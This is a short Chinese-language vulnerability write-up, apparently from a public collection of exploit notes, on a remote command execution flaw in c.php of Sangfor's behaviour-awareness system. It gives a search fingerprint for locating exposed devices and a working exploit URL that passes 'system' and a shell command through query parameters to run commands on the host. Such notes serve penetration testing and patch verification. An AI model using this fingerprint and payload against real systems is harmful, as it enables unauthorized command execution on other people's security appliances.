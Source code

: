 # 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 行为感知系统
```

## 网络测绘

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](images/202202091914752.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](images/202202091914059.png)